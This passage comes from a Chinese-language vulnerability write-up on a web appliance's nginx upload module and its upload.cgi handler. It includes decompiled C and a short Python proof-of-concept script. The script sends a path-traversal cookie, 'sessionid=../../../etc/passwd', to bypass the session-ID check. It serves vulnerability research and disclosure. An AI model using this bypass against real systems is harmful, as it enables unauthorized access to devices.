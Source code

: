 ```nginx
        upload_set_form_field $upload_field_name.path "$upload_tmp_path";
        upload_aggregate_form_field "$upload_field_name.md5" "$upload_file_md5";
        upload_aggregate_form_field "$upload_field_name.size" "$upload_file_size";
        upload_pass_form_field "^.*$";
        upload_cleanup 400 404 499 500-505;
        upload_resumable on;
}
```

由于 nginx 对 upload 模块的处理不当，导致 `$sessionid` 参数可控，攻击者可以通过修改 `sessionid` 为类似于 `../../../etc/passwd` 等一定存在的值，从而绕过对 `sessionid` 的鉴权，通过下面的脚本可以看到，错误的 `sessionid` 给出了 `403 Forbidden` 的返回值，而我们制造的 `sessionid` 可以返回 `400 Bad Request` 的返回页，说明我们已经绕过了此处对 `sessionid` 的检查。

```python
import requests

url='https://192.168.10.2/upload'

headers_1={'Cookie':'sessionid=wrongid'}
headers_2={'Cookie':'sessionid=../../../etc/passwd'}

r_1 = requests.post(url,headers=headers_1,verify=False)
r_2 = requests.post(url,headers=headers_2,verify=False)

print(r_1.text)
print("-"*0x30)
print(r_2.text)

r_1.close()
r_2.close()
```

在`upload.cgi`中（具体逻辑建议读者结合 IDA 反汇编代码自行分析），存在第二处检查：要求sessionid内必须满足前方的正则匹配、且长度大于16。

```C
  else if ( !strcmp(v5, "/upload")
         && session
         && strlen(session) - 16 <= 0x40
         && !match_regex("^[A-Za-z0-9+=/]*$", session) )
  {
    v25 = destination;
    v26 = option;
    v27 = pathparam;
    v28 = StrBufToStr(filepara_);
    upload_fun(session, v25, v26, v27, v28, cert_name, cert_type, password);
  }
```

该代码循环遍历传入的 `Cookie` 字符串，若遇到 "sessionid=" 子串，则将其后的值（即 `sessionid` 的值）赋给变量 `Cookie`（这个变量对应上文分析中的 `session`）。

```C
  if ( Cookie )
  {
    StrBufSetStr(Cookie_t2, Cookie);
    Cookie = 0;
    v16 = (char *)StrBufToStr(Cookie_t2);
    for ( i = strtok_r(v16, ";", &save_ptr); i; i = strtok_r(0, ";", &save_ptr) )
    {
      idx = strstr(i, "sessionid=");
      if ( idx )
        Cookie = idx + 10;
    }
  }
```
